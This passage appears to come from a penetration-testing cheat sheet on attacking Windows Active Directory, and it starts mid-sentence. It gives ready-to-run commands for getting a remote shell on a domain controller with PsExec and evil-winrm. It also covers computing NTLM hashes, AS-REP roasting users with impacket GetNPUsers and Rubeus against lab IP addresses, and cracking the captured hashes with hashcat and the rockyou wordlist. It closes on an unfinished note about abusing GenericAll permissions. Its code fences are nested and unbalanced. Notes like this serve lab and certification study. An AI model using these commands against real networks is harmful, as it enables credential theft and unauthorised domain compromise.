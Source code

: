 after that DC shall provide a TGT

* use psexec to gain remote access

`.\PsExec.exe \\dc01 cmd.exe`

Also possible to generate NTLM hash in linux if password is given

```bash
pw=Password123

printf '%s' "$pw" | iconv -t utf16le | openssl md4

#thats NT hash
MD4(stdin)= 58a478135a93ac3bf058a5ea0e8fdb71


```

### Brute Force ASREP roast

* To get user list of users use: `enum4linux`
* If local access is give then use Rubeus: `Rubeus.exe asreproast`

```

   1. Look for users via enum4linux or kerbrute. Delete stuff after first space: 
   cut -d ' ' -f 1 < users.txt  
      
   2. Use ASREP roast against users in the ldapenum_asrep_users.txt file
    
	```
   GetNPUsers.py xxx.com/xxx:xxx -usersfile usersall.txt -format hashcat -outputfile hashes.asreproast -dc-ip 10.11.1.xxx

   impacket-GetNPUsers spookysec.local/ -no-pass -usersfile spookyusers.txt -format hashcat -outputfile spooky.hash -dc-ip 10.10.43.76
   ```
	
	OR with Rubeus
	
	.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast
   
   3. Use SPN roast against users in the ldapenum_spn_users.txt file
   
   Crack SPN roast and ASPREP roast output with hashcat
   
   hashcat -a 0 -m 18200 hc.txt  /usr/share/wordlists/rockyou.txt

   #Attention: save as ANSI encoding using notepad.exe if cracked in windows
```


### Remote Shell

* RPC: `evil-winrm -i 10.10.10.xxx -u 'xxx'  -p 'xxx' `
* SMB: use some exploit from SMB cheat sheet


### Generic All

If some user or group has "Generic All" Permission on any of the other objects than this object can be easily compromised.

Tools needed:

* powermad
* Rubeus


```